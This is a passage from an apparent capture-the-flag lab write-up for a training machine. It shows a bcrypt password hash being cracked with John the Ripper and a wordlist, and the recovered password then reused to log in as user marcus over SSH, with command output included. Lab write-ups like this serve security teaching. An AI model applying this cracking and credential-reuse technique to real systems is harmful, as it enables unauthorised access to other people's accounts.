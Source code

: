 and we have a password hash for marcus. We can crack this hash :

```shell
echo '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C' > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Result:

```text
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
funkymonkey      (?)     
1g 0:00:00:50 DONE (2023-05-11 23:59) 0.01987g/s 169.5p/s 169.5c/s 169.5C/s vectra..cooter
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Password fopr user "marcus" is : "funkymonkey"

Since there is a SSH access, we can reuse this credential from cacti on this SSH access :

```shell
ssh marcus@$TARGET   
```

Result:

```text
Warning: Permanently added '10.10.11.211' (RSA) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 11 May 2023 10:02:01 PM UTC

  System load:                      0.07
  Usage of /:                       63.8% of 6.73GB
  Memory usage:                     22%
  Swap usage:                       0%
  Processes:                        247
  Users logged in:                  0
  IPv4 address for br-60ea49c21773: 172.18.0.1
  IPv4 address for br-7c3b7c0d00b3: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.211
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:2196


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ id
```